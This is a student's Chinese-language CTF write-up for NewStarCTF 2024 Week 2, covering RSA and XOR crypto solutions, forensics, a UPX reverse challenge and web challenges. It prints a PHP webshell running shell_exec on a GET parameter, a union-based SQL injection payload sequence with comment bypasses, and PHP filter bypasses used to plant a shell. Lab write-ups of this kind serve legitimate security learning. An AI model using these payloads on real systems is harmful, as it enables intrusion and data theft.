# NewStarCTF 2024 Week2 WriteUp

> Author: 夏槿 Date:10/8/2024
>
> 郑梓炫 23366091 网络空间安全学院

# Crypto

### one_and_more



前一部分是单个素数，过程和一般的RSA加密差不多；后一部分是三素数RSA解密。

根据对应的源代码编写解题代码：

``` python
from Crypto.Util.number import *

p=11867061353246233251584761575576071264056514705066766922825303434965272105673287382545586304271607224747442087588050625742380204503331976589883604074235133
q=11873178589368883675890917699819207736397010385081364225879431054112944129299850257938753554259645705535337054802699202512825107090843889676443867510412393
r=12897499208983423232868869100223973634537663127759671894357936868650239679942565058234189535395732577137079689110541612150759420022709417457551292448732371
c1=8705739659634329013157482960027934795454950884941966136315983526808527784650002967954059125075894300750418062742140200130188545338806355927273170470295451
c2=1004454248332792626131205259568148422136121342421144637194771487691844257449866491626726822289975189661332527496380578001514976911349965774838476334431923162269315555654716024616432373992288127966016197043606785386738961886826177232627159894038652924267065612922880048963182518107479487219900530746076603182269336917003411508524223257315597473638623530380492690984112891827897831400759409394315311767776323920195436460284244090970865474530727893555217020636612445

e = 65537

N=p*q*r

fi  = (p-1)*(q-1)*(r-1)

d2 = inverse(e,fi)

m2 = pow(c2,d2,N)

print(long_to_bytes(m2))

d1 = inverse(e,p-1)

m1 = pow(c1,d1,p)

print(long_to_bytes(m1))

'''
PS E:\newstarctf\one_and_more> py solve.py
b'r_4nd_N3xt_Eu1er_is_Y0u!}'
b'flag{Y0u_re4lly_kn0w_Eule'
'''
```

### Since you know something



从源代码知道 key 只有两位，考虑暴力破解；代码如下：

``` python
from pwn import xor
#The Python pwntools library has a convenient xor() function that can XOR together data of different types and lengths
from Crypto.Util.number import bytes_to_long,long_to_bytes

c=218950457292639210021937048771508243745941011391746420225459726647571

cc = long_to_bytes(c)

for i in range(32,127):
	for j in range(32,127):
		key = chr(i)+chr(j)
		print(xor(cc,key))

```

### 茶里茶气



给了很多已知条件。那么实际上可以根据最后的v1,v0,p 逆着推回初始化的状态。

再从十六进制两位两位压回去。可以得到flag。解题代码如下：

``` python
p  = 446302455051275584229157195942211
v3 = 489552116384728571199414424951
v4 = 469728069391226765421086670817
v5 = 564098252372959621721124077407
v6 = 335640247620454039831329381071


v2 = 14811577000910530290833258091616
v0 = 190997821330413928409069858571234
v1 = 137340509740671759939138452113480
derta = 462861781278454071588539315363

for i in range(32):
	v2-=derta; v2=(v2+p)%p
	v0 -= (v1+v2)^(8*v1+v5)^((v1>>7)+v6); v0=(v0+p)%p
	v1 -= (v0+v2)^(8*v0+v3)^((v0>>7)+v4); v1=(v1+p)%p

l=199

v1+=(v0<<(l//2))

# ans = 642921858775497482202810668699697395135580218897603477059453

# print(hex(ans))

ans = "666c61677b6631346767395f7465325f31695f3765615f377d"

flag = ""

for i in range(0,50,2):
	flag+=chr(int(ans[i]+ans[i+1],16))

print(flag)

'''
0x666c61677b6631346767395f7465325f31695f3765615f377d
'''
```

### 疑惑


由hint得到p，进而得到q，就可以得到了。仍然是 双素数的RSA解密。

解题代码1

``` python
from Crypto.Util.number import *


hint = 12578819356802034679792891975754306960297043516674290901441811200649679289740456805726985390445432800908006773857670255951581884098015799603908242531673390

e = 65537

p = hint^e+10086

n = 124455847177872829086850368685666872009698526875425204001499218854100257535484730033567552600005229013042351828575037023159889870271253559515001300645102569745482135768148755333759957370341658601268473878114399708702841974488367343570414404038862892863275173656133199924484523427712604601606674219929087411261

q = n//p

print(p)

print(q)

print(p*q)
'''
p = 12578819356802034679792891975754306960297043516674290901441811200649679289740456805726985390445432800908006773857670255951581884098015799603908242531598921
q = 9894080171409167477731048775117450997716595135307245061889351408996079284609420327696692120762586015707305237750670080746600707139163744385937564246995541
'''


```

解题代码2

``` pyth
from Crypto.Util.number import *


p = 12578819356802034679792891975754306960297043516674290901441811200649679289740456805726985390445432800908006773857670255951581884098015799603908242531598921
q = 9894080171409167477731048775117450997716595135307245061889351408996079284609420327696692120762586015707305237750670080746600707139163744385937564246995541

fi = (p-1)*(q-1)

n = p*q

e=65537

d = inverse(e,fi)


c = 36513006092776816463005807690891878445084897511693065366878424579653926750135820835708001956534802873403195178517427725389634058598049226914694122804888321427912070308432512908833529417531492965615348806470164107231108504308584954154513331333004804817854315094324454847081460199485733298227480134551273155762

ans = pow(c,d,n)

print(long_to_bytes(ans))

'''
PS E:\newstarctf\疑惑> python .\solv2.py
b'flag{yihuo_yuan_lai_xian_ji_suan_liang_bian_de2333}'
'''
```

# Misc

## herta's study



从 WireShark 去分析。可以得到horse.php，又从每次GET传参返回的内容进行分析得到结果。草稿如下：

``` php
<?php

    $payload=$_GET['payload'];
    $payload=shell_exec($payload);
    $bbb=create_function(
        $ns,
        $ns=base64_encode($ns);
        for($i=0;$i<strlen($ns);$i+=1){
            if($i%2==1){
                $ns[$i]=str_rot13($ns[$i]);
            }
        }
        return $ns;
    );  
    echo $bbb($payload);

?>
  

$ns,
$ns=base64_encode($ns);
for($i=0;$i    if($i%2==1){
        $ns[$i]=str_rot13($ns[$i]);
    }
}
return $ns;  


http://192.168.1.109/ezupload/upload/horse.php?payload=ren%20flag.txt%20f.txt

abcd 
echo whoami
echo 0721
echo fake{this_is_fake_falg}
echo fake{this_is_fake_falg} >> flag.txt
type flag.txt
type fla.txt
type f.txt
echo abcd
ren f.txt flag.txt
ren flag.txt f.txt
type flag.txt

YJJwZNo=

ZzFeZKt0aTlmX2lmX2Zua2VsZzFfZ30tCt==

ZzFeZKt0aTlmX2lmX2Zua2VsZzFfZ30X


type f.txt
ZzxuZ3tmSQNsaGRsUmBsNzVOdKQkZaVZLa0tCt==
ZmxhZ3tzSDNfaTRfUzBfNmVBdXQxZnVMLn0gCg==
```

``` cpp
#include <bits/stdc++.h>
using namespace std;
int main()
{
	string s;
	cin>>s;
	for(int i=0;i<s.size();i++)
	{
		if(i%2==1)
		{
			if(s[i]>='a'&&s[i]<='z')
			{
				s[i] = 'a' +(s[i]-'a'+13)%26;
			}
			else if(s[i]>='A'&&s[i]<='Z')
			{
				s[i] = 'A' +(s[i]-'A'+13)%26;
			}
		}
	}
	cout<<s<<"\n";
}
```


## typhoon

用互联网历史档案得到的原始pdf，然后按部操作得到。



把对应的md5 用flag{}包裹一下得到。

## wireshark_checkin



直接notepad搜索得到（奇奇怪怪的）

## wireshark_secret



找到传输的那个图片，导出来得到。

## yuanshen

把图片用QQ浏览器的在线工具直接分解开来，然后翻译得到

``` txt
FLAG IS A SENTENCE

IIAAELGTSFKFA

IT IS A FAKE FLAG(1)

DOYOUKNOWFENCE

MESIOAABGNHNSGOSMYEIADE(3)

MAYBEGENSHINISAGOODSAME

maybegenshinisagoodsame

LOREM IPSUM DOLOR SIT AMET
CONSECTETUR ADIPISICING ELIT
SED DO EIUSMOD TEMPOR
INCIDIDUNT UT LABORE ET
DOLORE MAGNA ALIQUA QUIS


lrmeo ipsum dlroo sit amet
```

左下用栅栏密码试出来是是3的加密；右下角同时尝试得到。

但是我翻译错了一个字符，搞半天才搞对（无奈。

答案是 `maybegenshinisagoodgame`

## 字里行间的秘密



把key.txt 用上面这个网站去解密，然后得到docx的密码，然后再把docx的内容再解密。得到flag。

网站：[链接](https://330k.github.io/misc_tools/unicode_steganography.html)

## XiaoMing



配完环境之后，直接开弄= =

命令是

``` bash
python vol.py -f ../image.raw --profile=Win7SP1x86 hashdump
```

不过不需要再次bash64解密。



# Reverse

## UPX

脱壳后，用ida查看，发现对了几个数会返回对应的return值，所以编写如下程序：

``` cpp
#include <bits/stdc++.h>
using namespace std;
int main()
{
	string s="flag{";
	int now=5;
	while(true)
	{
		for(int i=33;i<=125;i++)
		{
			char p=i;
			string tmp = s+p;
			ofstream fout("./data.txt",ios::out);
			if(!fout.is_open())
			{
				return -1;
			}
			fout<<tmp;
			fout.close();
			FILE *fp = popen("./upx < data.txt > data.out","r");
			int code = pclose(fp);
			if(WEXITSTATUS(code)==now+1||WEXITSTATUS(code)==0)
			{
				now++;
				s+=p;
				break;
			}
		}
		if(now==22) break;
	}
	cout<<s<<"\n";
	return 0;
}

/*
(base) [uniya@uniyawork Downloads]$ ./solve
flag{Do_you_know_UPX?}

*/
```

# Web

## one_second_type_8_english_sentence



手速慢的人会选择写脚本！代码如下：

``` python
#!/usr/bin/python3

#encoding:utf-8

import requests

s=requests.Session()

url="http://eci-2ze8z01szogk0yudg063.cloudeci1.ichunqiu.com/start"

r=s.get(url)

res=r.content

a=res.find(b'<p id=\"text\">')

b=res.find(b'</p>',a)

answer = res[a+13:b]

url2="http://eci-2ze8z01szogk0yudg063.cloudeci1.ichunqiu.com/submit"


r=s.post(url2,data={'user_input': answer})

print(r.content)
```

## thanks_pidan_plus



SQL注入。注入过程如下：

``` log
"

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '""" LIMIT 0,1' at line 1


-1"/**/union/**/select/**/version(),database()"1

Name: "10.4.13-MariaDB"
Position: "ctf"


-1"/**/union/**/select/**/1,group_concat(TABLE_NAME)/**/FROM/**/information_schema.tables/**/WHERE/**/TABLE_SCHEMA=database()/**/&&"1


Name: "1"
Position: "Fl4g"

-1"/**/union/**/select/**/1,group_concat(column_name)/**/FROM/**/information_schema.columns/**/WHERE/**/table_name='Fl4g'&&"1

Name: "1"
Position: "id,des,value"


-1"/**/union/**/select/**/1,group_concat(id,des,value)/**/FROM/**/Fl4g/**/WHERE/**/1/**/&&"1

Name: "1"
Position: "5555Y0u are the master 0f bypass1ngflag{23d24149-6b10-4cbe-8d91-0c6322617e40}"
```

## pangbai2



用githack把git文本下下来，用git log 和 git diff 发现好像找不到什么东西。

然后用 git stash 从而获得了backdoor的php

进行代码审计。

如何越过第二个呢？

首先是 其实php对点号的解析。只要加上一个 `[` 这个就会被解析成 `_` 后面的因为此处error但是忽略错误于是后面的就正常读入了。还有大小写，用 `%4E` 替代 `N` 即可。

对于pregmatch怎么越过呢 其实在文末加上 `\n` 会忽略的！

于是得到图中的get传参。

不过搜索了一遍没有发现文件（甚至种了个马）

最后浏览器搜了一遍发现 有可能在环境变量，于是 `system('env')` 解决。（骂骂咧咧）

## 复读机

模板注入。



但是丢了这部分的怎么写的了= =真服了。

简而言之的就是绕过绕过绕过。

# End

蛮有趣的呢！忙完Pre和英语作文再开始Week3的旅途吧。